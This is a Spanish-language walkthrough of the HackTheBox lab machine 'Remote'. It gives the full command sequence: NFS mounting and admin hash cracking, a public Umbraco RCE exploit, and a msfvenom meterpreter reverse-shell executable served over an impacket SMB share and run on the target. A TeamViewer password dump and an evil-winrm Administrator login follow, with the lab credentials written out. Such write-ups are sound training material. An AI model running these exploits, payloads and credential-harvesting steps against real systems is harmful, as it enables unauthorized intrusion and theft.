






# REMOTE [HACKTHEBOX] / Easy
### (Anonymous FTP, Wfuzz enumeration, mounts, hash cracking, Umbraco Remote Code Execution (RCE), Metasploit, Impacket, TeamViewer enumeration, Evil-winrm)

#### - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - ´

# NMAP Scan

Empezaremos haciendo el nmap de siempre:

```bash
nmap -p- --open -sCV -sS -n -Pn -vvv 10.10.10.180 -oN escaneo_nmap
```

Y nos encontrará un montón de puertos abiertos, vemos 2 que nos interesan a primera vista.


# Enumeration / User Flag

Si probamos a entrar en ftp como Anonymous no nos encuentra nada dentro de ftp:



Vamos a entrar en el puerto 80 (la web), inspeccionamos un poco pero no vemos nada interesante, vamos a hacer un wfuzz para encontrar subdirectorios:

```bash
wfuzz -c --hc=404 -t 200 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u 'http://10.10.10.180/FUZZ'
```

Con estos parámetros nos encuentra un montón de subdirectorios, pero si inspeccionamos un poco vemos que nos aparece uno que se llama "install", que si nos metemos desde la web nos hace un redirect a esta página:



Una vez en esta página vemos que hay un panel de login, pero no parece que haya forma de entrar de momento. Si **volvemos sobre nuestros pasos** y nos vamos al escaneo de nmap que hicimos antes nos damos cuenta que el siguiente puerto de nfs está abierto:



En este puerto se están emitiendo una ubicación por la red (una montura), con el comando 

```bash
showmount -e "10.10.10.180"
```

podemos ver las monturas que está emitiendo esa ip:


Aunque también podemos hacerlo con nmap mediante el comando

```bash
nmap -p 111 --script=nfs-showmount "10.10.10.180"
```


Una vez en este punto, podemos montar en local esa montura con el comando

```bash
mount -t nfs 10.10.10.180:/site_backups /mnt/
```


Si vamos al directorio App_Data vemos que hay un archivo .sdf llamado *Umbraco.sdf*, donde vienen datos en binario. Hay mucha información, así que vamos a poner el comando

```bash
cat Umbraco.sdf | head
```

para que nos ponga en pantalla solo las primeras líneas de este archivo, en las que vemos un hash de la contraseña de admin:


Si nos vamos a la web de https://crackstation.net la crackeamos fácil:


También tenemos el usuario de la web del admin, el login donde pedía un correo:


Si nos vamos a la web y probamos con estas credenciales entramos a la web, que si nos vamos a la esquina de arriba a la izquierda, donde nuestro usuario admin, tendríamos la versión de *Umbraco*:



Si buscamos un exploit por GitHub, nos encontramos con la web https://github.com/Jonoans/Umbraco-RCE/, donde hay que clonar el repositorio. Una vez clonado e instalados los requirements, ejecutamos el ejecutable .py (exploit.py) de la siguiente manera

```bash
python3 exploit.py -u admin@htb.local -p baconandcheese -w http://10.10.10.180 -i 10.10.14.20
```

Una vez puesto este comando, nos da una shell directamente:


El problema es que si probamos a poner comandos básicos no funciona bien. 
Lo primero que haremos es irnos a un directorio donde tengamos más permisos, como por ejemplo *temp*:

```powershell
cd C:\windows\temp
```

Una vez aquí, nos vamos a compartir un archivo malicioso hecho mediante msfvenom para poder conseguir una shell mejor. Vamos a crear el archivo con el siguiente comando:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.20 LPORT=5555 -f exe -o  virus.exe
```

Mediante este comando estamos creando un archivo malicioso .exe, al que le estamos metiendo un payload de una meterpreter de windows, especificando el puerto y nuestra ip. Una vez creado, lo vamos a compartir con la máquina víctima mediante impacket. Con el siguiente comando crearemos un recurso compartido:

```bash
impacket-smbserver samucrow $(pwd) -smb2support
```

Esto básicamente es como hacer un 

```python
python3 -m http.server 80
```

pero para windows funciona mejor impacket.

Una vez iniciado el servidor para compartir archivos, nos vamos a copiar el .exe malicioso a la máquina víctima de la siguiente manera:

```powershell
copy \\10.10.14.20\samucrow\virus.exe virus.exe
```

Una vez tenemos el virus dentro del sistema víctima, nos vamos a metasploit usando msfconsole para usar multi/handler:



con el comando

```msfconsole
set PAYLOAD windows/meterpreter/reverse_tcp
```

vamos a definir el mismo payload que pusimos en el .exe que copiamos en la máquina víctima para conseguir una meterpreter. Vamos a poner los datos que nos piden de nuestra ip, tanto en el payload como en el multi/handler, y vamos a poner también el puerto 5555 en ambos, que es el que especificamos anteriormente en el payload también:


ponemos el comando run y ejecutamos el virus.exe en la máquina víctima poniendo `./virus.exe`, lo que nos dará una meterpreter:


Una vez en la meterpreter, ponemos `shell` y nos dará una shell de windows:



ahora iremos a C:\Users\Public\ para ver la flag de user.

# PRIVESC / Root Flag

Ahora si nos vamos a la ruta "*C:\Program Files (x86)*", vemos que esta máquina tiene *TeamViewer*, por lo que vamos a usar un módulo de metasploit que nos permite enumerar este programa.
Pondremos el comando `background` en la meterpreter (primero hay que hacer `exit`), ahora vamos a buscar lo siguiente: 

```msfconsole
search teamviewer
```


elegimos al opción "1" y si ponemos `show options` vemos que nos pide un SESSION, por lo que listamos las sesiones activas con `session -l`:


elegimos la opción "1" y ponemos `run` y nos encontrará la contraseña de TeamViewer:


Para deducir de que usuario es esta contraseña, vamos otra vez a la shell de meterpreter con `session -i 1` y vamos a la ruta "*C:\users*", donde veremos  que solo existe el usuario **Administrador**.

Ahora con `evil-winrm` vamos a entrar en la máquina como Administrador:

```bash
evil-winrm -i 10.10.10.180 -u 'Administrator' -p '!R3m0te!'
```

Ahora nos iríamos al escritorio del Administrador y tendremos la flag de root.

# ./ROOTED
